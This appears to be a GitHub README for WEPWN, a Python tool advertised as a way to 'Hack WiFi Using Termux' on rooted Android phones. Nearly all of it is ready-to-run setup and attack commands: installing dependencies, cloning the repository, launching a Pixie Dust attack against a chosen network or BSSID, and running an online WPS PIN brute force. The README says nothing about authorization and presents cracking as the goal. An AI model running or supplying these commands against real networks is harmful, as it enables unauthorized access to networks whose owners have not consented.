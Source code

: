<h1 align="center">WEPWN</h1>
<h4 align="center">Hack WIfi Using Termux! (Requires Root)</h4>

#### Start

<p align="center"><img src=".assets/demo2.png"></p>

#### Cracked

<p align="center"><img src=".assets/demo3.png"></p>

#### Autostart

<p align="center"><img src=".assets/demo4.png"></p>

### Installation :

```bash
pkg update && pkg upgrade -y
pkg install -y root-repo -y
pkg install -y git tsu python termux-api wpa-supplicant pixiewps iw
git clone https://github.com/ITSN0B1T4/WEPWN
cd WEPWN
chmod +x wepwn.py
```
#### Help : `sudo python wepwn.py --help`
#### Example : `sudo python wepwn.py -i wlan0 -K`

#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python wepwn.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python wepwn.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python wepwn.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**


#### Real Author : rofl0r => BiRi_B@B@ => Meh
